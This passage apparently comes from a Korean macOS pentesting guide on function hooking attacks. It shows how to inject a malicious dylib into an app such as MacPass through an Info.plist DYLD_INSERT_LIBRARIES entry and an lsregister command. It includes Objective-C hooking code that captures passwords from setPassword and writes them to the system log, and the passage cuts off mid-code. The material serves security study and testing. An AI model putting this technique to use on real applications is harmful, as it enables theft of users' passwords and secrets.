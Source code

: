 ```objectivec
return 0;
}
}
```
## 후킹 공격 방법론

이 페이지에서는 함수 후킹하는 다양한 방법에 대해 논의되었습니다. 그러나 이들은 **프로세스 내에서 코드를 실행하여 공격**하는 것을 포함합니다.

이를 위해 가장 쉬운 기술은 [환경 변수 또는 하이재킹을 통한 Dyld 주입](../macos-dyld-hijacking-and-dyld\_insert\_libraries.md)을 사용하는 것입니다. 그러나 [Dylib 프로세스 주입](macos-ipc-inter-process-communication/#dylib-process-injection-via-task-port)을 통해서도 이를 수행할 수 있다고 생각합니다.

그러나 두 가지 옵션 모두 **보호되지 않은** 이진 파일/프로세스에 **제한**이 있습니다. 제한 사항에 대해 자세히 알아보려면 각 기술을 확인하십시오.

그러나 함수 후킹 공격은 매우 특정한 공격입니다. 공격자는 이를 통해 프로세스 내에서 **민감한 정보를 탈취**할 것입니다 (그렇지 않다면 프로세스 주입 공격을 수행할 것입니다). 이러한 민감한 정보는 MacPass와 같은 사용자가 다운로드한 앱에 위치할 수 있습니다.

따라서 공격자는 취약점을 찾거나 애플리케이션의 서명을 제거하여 애플리케이션의 Info.plist를 통해 **`DYLD_INSERT_LIBRARIES`** 환경 변수를 주입할 것입니다. 다음과 같이 추가합니다:
```xml
<key>LSEnvironment</key>
<dict>
<key>DYLD_INSERT_LIBRARIES</key>
<string>/Applications/Application.app/Contents/malicious.dylib</string>
</dict>
```
그런 다음 **애플리케이션을 다시 등록**합니다:

{% code overflow="wrap" %}
```bash
/System/Library/Frameworks/CoreServices.framework/Frameworks/LaunchServices.framework/Support/lsregister -f /Applications/Application.app
```
{% endcode %}

해당 라이브러리에 정보를 유출하기 위한 후킹 코드를 추가합니다: 비밀번호, 메시지...

{% hint style="danger" %}
macOS의 최신 버전에서는 애플리케이션 이진 파일의 서명을 제거하고 이전에 실행되었다면, macOS는 해당 애플리케이션을 더 이상 실행하지 않습니다.
{% endhint %}

#### 라이브러리 예제
```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
// Function that will log the password and call the original setPassword(pass, file_path) method
NSLog(@"[+] Password is: %@", password);

// After logging the password call the original method so nothing breaks.
return ((BOOL (*)(id,SEL,NSString*, NSURL*))real_setPassword)(self, _cmd,  password, keyFileURL);
}

// Library constructor to execute
```